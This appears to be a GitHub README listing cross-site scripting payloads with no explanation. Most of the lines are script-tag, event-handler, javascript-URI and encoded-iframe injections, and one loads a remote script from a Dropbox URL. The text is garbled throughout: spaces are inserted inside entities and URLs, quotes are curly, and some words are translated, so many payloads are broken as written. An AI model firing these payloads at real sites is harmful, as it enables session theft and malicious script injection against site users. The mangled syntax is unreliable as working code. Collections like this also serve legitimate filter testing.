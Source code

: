 # carga-til
XSS-Payloads

<script> alert (123); </script>
<ScRipT> alert ("XSS"); </ScRipT>
<script> alert (123) </script>
<script> alert ("hellox worldss"); </script>
<script> alert (“XSS”) </script> 
<script> alert (“XSS”); </script>
<script> alert ('XSS') </script>
“> <script> alert (“ XSS ”) </script>
<script> alert (/ XSS ”) </script>
<script> alert (/ XSS /) </script>
</script> <script> alert (1) </script>
'; alerta (1);
') alert (1); //
<ScRiPt> alert (1) </sCriPt>
<IMG SRC = jAVasCrIPt: alert ('XSS')>
<IMG SRC = ”javascript: alert ('XSS');”>
<IMG SRC = javascript: alert (& quot; XSS & quot;)>
<IMG SRC = javascript: alert ('XSS')>      
<img src = xss onerror = alert (1)>


<iframe% 00 src = "& Tab; javascript: prompt (1) & Tab;"% 00>

<svg> <style> {font-family & colon; '<iframe / onload = confirm (1)>'

<input / onmouseover = "javaSCRIPT & colon; confirm & lpar; 1 & rpar;"

<sVg> <scRipt% 00> alert & lpar; 1 & rpar; {Ópera}

<img / src = `% 00` onerror = this.onerror = confirm (1)

<form> <isindex formaction = "javascript & colon; confirm (1)"

<img src = `% 00` & NewLine; onerror = alerta (1) & NewLine;

<script / & Tab; src = 'https: //dl.dropbox.com/u/13018058/js.js' / & Tab;> </script>

<ScRipT 5-0 * 3 + 9/3 => prompt (1) </ ScRipT giveanswerhere =?

<iframe / src = "data: text / html; & Tab; base64 & Tab;, PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg ==">

<script / *% 00 * /> / *% 00 * / alert (1) / *% 00 * / </ script / *% 00 * /

& # 34; & # 62; <h1 / onmouseover = '\ u0061lert (1)'>% 00

<iframe / src = "data: text / html, <svg & # 111; & # 110; load = alert (1)>">

<meta content = "& NewLine; 1 & NewLine ;; JAVASCRIPT & colon; alert (1)" http-equiv = "atualizar" />
